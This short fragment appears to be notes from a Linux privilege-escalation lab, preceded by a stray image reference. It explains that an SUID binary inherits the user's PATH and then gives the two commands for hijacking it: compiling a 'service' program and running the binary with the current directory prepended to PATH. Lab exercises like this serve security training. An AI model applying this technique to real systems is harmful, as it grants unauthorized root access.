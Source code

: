 1. The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.
2. gcc -o service /home/user/tools/suid/service.c
3. PATH=.:$PATH /usr/local/bin/suid-env